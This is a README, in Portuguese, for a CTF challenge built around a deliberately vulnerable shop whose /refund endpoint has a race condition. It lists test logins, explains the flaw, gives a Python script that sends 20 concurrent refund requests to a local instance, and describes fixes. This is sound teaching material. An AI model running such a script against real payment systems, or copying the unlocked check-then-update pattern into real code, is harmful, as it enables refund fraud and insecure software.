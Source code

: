 # CTF Challenge - Race Condition in Refund System

Este é um desafio CTF focado em explorar uma vulnerabilidade de **Race Condition** no sistema de reembolso.

## Descrição

A aplicação é uma loja online simples com sistema de autenticação, compra de itens e reembolso. O objetivo é encontrar e explorar a vulnerabilidade de race condition para obter a flag.

## Objetivo

A flag é exibida quando o saldo do usuário atinge **$10,000 ou mais**.

## Como Executar

```bash
# Construir e iniciar os containers
docker-compose up --build

# A aplicação estará disponível em http://localhost:8080
```

## Contas de Teste

- **Username:** `user` | **Password:** `user123`
- **Username:** `guest` | **Password:** `guest123`

## Estrutura

- `/login` - Página de login
- `/home` - Página inicial (mostra flag se saldo >= $10,000)
- `/shop` - Loja para comprar itens
- `/orders` - Lista de pedidos e opção de reembolso
- `/refund` - Endpoint de reembolso (vulnerável!)

## A Vulnerabilidade

O endpoint `/refund` é vulnerável a race condition porque:

1. Verifica se o pedido já foi reembolsado
2. Há um pequeno delay (`time.sleep(0.1)`)
3. Atualiza o saldo e marca como reembolsado

**O problema:** Entre a verificação e o update, múltiplas requisições simultâneas podem passar pela verificação e todas processarem o reembolso, resultando em múltiplos créditos para o mesmo pedido.

## Exploração

Para explorar a vulnerabilidade:

1. Faça login
2. Compre um item caro (ex: "Expensive Item" por $500)
3. Vá para "My Orders"
4. Dispare múltiplas requisições simultâneas para o endpoint `/refund` com o mesmo `order_id`
5. Continue até atingir $10,000+ e obter a flag

### Script de Exploração Exemplo

```python
import requests
import threading

def request_refund(session, order_id, url):
    """Faz requisição de reembolso"""
    response = session.post(url + '/refund', data={'order_id': order_id})
    print(response.json())

# Login
session = requests.Session()
login_data = {'username': 'user', 'password': 'user123'}
session.post('http://localhost:8080/login', data=login_data)

# Obter order_id (substitua pelo ID real do pedido)
order_id = 1
url = 'http://localhost:8080'

# Disparar múltiplas requisições simultâneas
threads = []
for i in range(20):  # 20 requisições em paralelo
    t = threading.Thread(target=request_refund, args=(session, order_id, url))
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

## Mitigação

A vulnerabilidade pode ser corrigida usando:

1. **Transações atômicas** com locks:
```sql
START TRANSACTION;
SELECT ... FOR UPDATE;
-- verificar e atualizar
COMMIT;
```

2. **UPDATE condicional**:
```sql
UPDATE orders SET refunded = 1 
WHERE id = %s AND refunded = 0;
-- Verificar se alguma linha foi afetada
```

3. **Unique constraint** ou **optimistic locking** com versão


